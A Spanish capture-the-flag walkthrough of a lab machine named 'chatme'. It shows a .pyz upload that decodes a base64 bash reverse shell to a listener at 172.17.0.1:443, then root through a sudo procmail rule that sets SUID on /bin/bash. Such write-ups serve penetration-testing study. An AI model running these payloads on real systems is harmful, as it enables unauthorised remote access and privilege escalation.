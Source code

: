nmap:80

![image](https://github.com/user-attachments/assets/6da55b66-44e5-45aa-b6bd-204f3656c0a3)


---
al ingresar a la pagina principal vemos esto

![image](https://github.com/user-attachments/assets/3924a298-cd07-4d62-a48b-c0491a3129b3)

entramos a "chat Right now" y es un .dl así que lo añadimos a "/etc/host" 

al entrar nos mandara a un tipo chat que hay

![image](https://github.com/user-attachments/assets/fa5ddaa2-dc0d-4b43-a35e-4a977eb12627)


con burpsuite capturamos y vemos que los archivos se suben en formato "PYZ"
en el terminal creo un virus.pyz:

    import os
    os.system("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx' | base64 -d | bash")

en la pagina https://www.revshells.com/ creamos una reverse en base64 y nos dara algo así: YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYx que será lo que colocaremos en el código 

lo guardamos, colocamos el terminal en escucha y subimos el archivo
esperamos un rato y estamos dentro ahora escalamos
después de esperar un rato tenemos al conexión

![image](https://github.com/user-attachments/assets/6a6eb0ab-ff4a-4779-8a46-521a44c1e07a)

al hacer un sudo -l aparece: /usr/bin/procmail
![[sudo-l.png]]

en la carpeta /tmp hay un archivo llamado "crontab.z4q2tt" que podemos modificar 
como no hay una carpeta de procmail creamos una llamada "procmailrc",  dentro colocamos el código: 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE

![[dockerlabs/medio/chatme/codigo1.png]]

ahora probamos que el código funciona utilizando este comando

	 echo "test" | sudo /usr/bin/procmail -m .procmailrc

![[dockerlabs/medio/chatme/codigo2.png]]

ahora colocamos el mismo comando pero lo modificamos 

     TMPFILE="/tmp/pwned"
     :0
	 | touch $TMPFILE; chmod u+s /bin/bash

![[bash.png]]

volvemos a lanzar el comando:

     echo "test" | sudo /usr/bin/procmail -m .procmailrc

revisamos con "ls -la" el archivo en especifico de /bin/bash  y vemos que esta en rojo como queríamos con los permisos, ahora lanzamos un "bash -p"
![[dockerlabs/medio/chatme/root.png]]
y somos root!
